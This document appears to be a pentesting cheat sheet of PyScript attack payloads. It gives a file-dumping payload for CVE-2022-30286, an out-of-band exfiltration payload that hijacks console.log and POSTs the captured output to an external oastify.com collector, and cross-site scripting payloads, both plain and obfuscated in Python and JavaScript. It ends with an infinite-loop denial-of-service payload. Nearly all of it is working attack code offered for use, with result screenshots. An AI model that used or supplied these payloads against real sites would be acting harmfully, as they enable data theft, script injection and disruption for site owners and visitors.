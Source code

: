# PyScript Pentesting Guide
PyScript is a new framework developed for integrating Python in the HTML so, it can be used alongside HTML. In this cheat sheet you'll find how to use the PyScript for your penetration testing purposes

## Dumping / Retrieving files from the Emscripten virtual memory filesystem:
<small>`CVE ID: CVE-2022-30286`</small>
<br><br>
Code:
```
<py-script>
        with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
        out = fin.read()
        print(out)
</py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

## [OOB Data Exfiltration of the Emscripten virtual memory filesystem (console monitoring)](https://cyber-guy.gitbook.io/cyber-guy/blogs/the-art-of-vulnerability-chaining-pyscript)
<small>`CVE ID: CVE-2022-30286`</small>
<br><br>
Code:
```
   <py-script>
x = "CyberGuy"
if x == "CyberGuy":
    with open('/lib/python3.10/asyncio/tasks.py') as output:
        contents = output.read()
        print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
   </py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)

## Cross Site Scripting (Ordinary)

Code:
```
<py-script>
        print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

## Cross Site Scripting (Python Obfuscated)

Code:
```
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

## Cross Site Scripting (JavaScript Obfuscation)

Code:
```
<py-script>
   print("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
 </py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

## DoS attack (Infinity loop)

Code:
```
    <py-script>
      while True:
         print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
   </py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)
